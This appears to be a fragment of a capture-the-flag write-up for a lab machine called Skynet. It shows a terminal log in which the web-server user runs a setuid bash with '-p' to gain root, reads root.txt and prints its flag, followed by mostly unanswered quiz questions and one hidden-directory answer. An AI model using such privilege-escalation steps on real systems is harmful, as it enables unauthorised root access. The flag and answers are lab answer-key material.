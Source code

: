 ```
www-data@skynet:/var/www/html$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cd /root/
cd /root/
bash-4.3# ls
ls
root.txt
bash-4.3# cat root.txt
cat root.txt
3f0372db24753accc7179a282cd6a949
bash-4.3# 
```# Questions
What is Miles password for his emails?
```

```

What is the hidden directory?
```
/45kra24zxs28v3yd
```

What is the vulnerability called when you can include a remote file for malicious purposes?
```
```

What is the user flag?
```
```

What is the root flag?
```
```

